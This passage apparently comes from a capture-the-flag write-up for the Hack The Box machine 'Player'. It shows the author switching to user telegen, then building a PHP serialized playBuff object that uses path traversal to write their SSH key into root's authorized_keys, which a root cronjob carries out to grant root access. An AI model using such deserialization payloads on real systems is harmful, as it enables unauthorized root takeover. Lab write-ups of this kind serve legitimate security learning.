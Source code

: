 First I'll `su` to user `telegen` and specify that I want a Bash shell and not that lshell restricted shell:

```
www-data@player:/var/lib/playbuff$ su -s /bin/bash telegen
Password: 
telegen@player:/var/lib/playbuff$ id
uid=1000(telegen) gid=1000(telegen) groups=1000(telegen),46(plugdev)
```

For the serialized payload, I will write my SSH public to root's `authorized_keys` then I should be able to log in as root:
 - Object class: playBuff (it contains 2 properties)
 - logFile: `../../../../../../root/.ssh/authorized_keys`
 - logData: content of my SSH public key

```
O:8:"playBuff":2:{s:7:"logFile";s:43:"../../../../../../root/.ssh/authorized_keys";s:7:"logData";s:399:"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+SZ75RsfVTQxRRbezIJn+bQgNifXvjMWfhT1hJzl/GbTbykFtGPTwuiA5NAcPKPG25jkQln3J8Id2ngapRuW8i8OvM+QBuihsM9wLxu+my0JhS/aNHTvzJF0uN1XkvZj/BkbjUpsF9k6aMDaFoaxaKBa7ST2ZFpxlbu2ndmoB+HuvmeTaCmoY/PsxgDBWwd3GiRNts2HOiu74DEVt0hHbJ7kwhkR+l0+6VS74s+7SjP+N1q+oih83bjwM8ph+9odqAbh6TGDTbPX2I+3lTzCUeGS9goKZe05h/YtB2U2VbH1pxJZ1rfR1Sp+SBS+zblO9MUxvbzQoJTHpH2jeDg89 root@ragingunicorn";}
```

I wait a bit for the cronjob to run then I'm able to SSH in as root after my public key has been written into root's SSH directory:

![](/assets/images/htb-writeup-player/root.png)
